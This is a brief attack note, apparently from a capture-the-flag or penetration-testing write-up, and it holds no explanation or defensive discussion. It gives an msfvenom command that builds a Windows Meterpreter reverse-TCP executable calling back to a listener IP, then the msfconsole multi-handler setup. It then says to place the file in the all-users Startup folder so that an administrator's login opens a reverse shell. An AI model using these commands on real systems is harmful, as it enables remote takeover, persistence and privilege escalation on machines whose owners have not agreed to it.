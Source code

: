 `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.2.111.233 -f exe -o x.exe`

create a payload using this command then 
msfconsole , multi handler , set payload windows/meterpreter/reverse_tcp set lhost 

place the exe file in
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

when an admin will login we will get reverse shell 